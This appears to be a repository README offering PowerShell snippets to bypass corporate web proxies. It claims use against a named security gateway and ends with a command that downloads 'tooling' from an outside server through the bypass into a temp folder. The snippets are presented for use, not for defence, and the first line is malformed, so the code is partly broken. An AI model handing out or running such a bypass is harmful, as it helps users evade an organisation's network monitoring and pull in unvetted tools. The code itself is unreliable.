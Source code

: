# Proxy-Bypass using PowerShell.
When PowerShell is available and you need to bypass those annoying corp proxies, give this a try. A proxy bypass using powershell. Sucecssfully used to bypass Menlo Security Web Gateway. 

## PowerShell code for proxy bypass.
Paste as is into powershell session. 
```
$Proxy-New-object System.Net.WebProxy
$WebSession-new-object Microsoft.PowerShell.Commands.WebRequestSession
$WebSession.Proxy=$Proxy
```

## Test proxy bypass is working.
```
Invoke-webrequest -Uri "https://www.google.com" -WebSession $WebSession
```

## Download scripts/tooling using bypass.
```
Invoke-webrequest -Method Get -Uri "https://ServerAddress/tool.ps1" -WebSession $WebSession -outfile c:\temp\tool.ps1
```
